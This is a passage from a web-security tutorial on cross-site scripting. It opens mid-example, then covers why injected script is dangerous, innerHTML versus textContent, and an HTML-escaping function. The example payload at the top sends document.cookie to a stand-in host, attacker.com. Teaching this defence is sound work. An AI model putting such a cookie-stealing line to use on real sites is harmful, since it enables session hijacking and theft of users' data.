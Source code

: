 ```html
    fetch("https://attacker.com/steal?cookie=" + document.cookie);
  </script>
</div>



```

**Why this is dangerous:** The attacker's code runs with full access to:

- The user's cookies (login sessions, personal tokens)
- The page content (personal information visible on the page)
- The ability to make requests on behalf of the user
- The user's browser history, and more

#### The Solution: Distinguish Between HTML Structure and Text Content

```javascript
// Vulnerable approach
// innerHTML interprets the string as HTML, including <script> tags
div.innerHTML = userInput;
// If userInput = "<script>alert('hacked')</script>"
// The script RUNS

// Safe approach
// textContent treats the string as plain text, not HTML
div.textContent = userInput;
// If userInput = "<script>alert('hacked')</script>"
// It displays literally as: "<script>alert('hacked')</script>"
// No code execution
```

**The principle:** Always assume user input is malicious. If you display user-provided text, use methods that treat it as **text**, not **code**.

Advanced approach:

```javascript
// HTML escaping: convert special characters to safe versions
function escapeHTML(text) {
  const map = {
    "&": "&amp;",
    "<": "&lt;",
    ">": "&gt;",
    '"': "&quot;",
    "'": "&#039;",
  };
  return text.replace(/[&<>"']/g, (char) => map[char]);
}

// Now safe to use with innerHTML
div.innerHTML = escapeHTML(userInput);
```

---